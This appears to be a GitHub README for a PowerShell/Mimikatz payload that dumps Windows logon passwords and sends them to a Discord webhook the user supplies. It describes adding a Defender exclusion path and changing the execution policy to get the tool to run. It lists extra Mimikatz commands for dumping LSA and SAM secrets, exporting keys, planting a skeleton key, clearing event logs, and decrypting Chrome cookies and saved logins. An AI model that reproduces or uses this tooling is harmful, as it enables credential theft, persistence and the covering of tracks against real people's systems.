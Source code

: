 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject

Extract from SAM
- lsadump::sam

print list of provider keys
- crypto::keys /export

skeleton key
- misc::skeleton

event logs
- event::clear
- event::clear /log:system

Chrome Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect

Chrome Logins
- dpapi::chrome /in:"C:\Users\\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 

# Note
Script does not bypass av, we force it
- mimikatz is flagged after the powershell process is finished from heuristics
# Mimikatz payload credits
https://github.com/HernanRodriguez1/MimikatzFUD